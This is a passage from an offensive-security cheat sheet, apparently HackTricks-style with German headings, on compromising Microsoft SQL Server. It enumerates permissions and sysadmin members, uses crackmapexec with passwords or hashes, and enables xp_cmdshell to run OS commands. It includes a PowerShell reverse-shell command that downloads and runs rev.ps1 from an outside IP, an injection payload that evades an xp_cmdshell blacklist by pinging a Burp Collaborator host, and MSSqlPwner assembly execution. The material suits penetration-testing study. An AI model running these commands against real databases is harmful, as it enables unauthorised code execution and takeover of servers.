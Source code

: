 ```sql
# Get all my permissions over securable type SERVER
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
# Get all my permissions over a database
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
# Get members of the role "sysadmin"
Use master
EXEC sp_helpsrvrolemember 'sysadmin';
# Get if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
# Get users that can run xp_cmdshell
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
## Tricks

### OS-Befehle ausführen

{% hint style="danger" %}
Beachten Sie, dass es nicht nur notwendig ist, **`xp_cmdshell`** **aktiviert** zu haben, sondern auch die **EXECUTE-Berechtigung für das gespeicherte Verfahren `xp_cmdshell`** zu besitzen. Sie können herausfinden, wer (außer Sysadmins) **`xp_cmdshell`** verwenden kann mit:
```sql
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
{% endhint %}
```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Executing custom assembly on the current server with windows authentication and executing hostname command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

```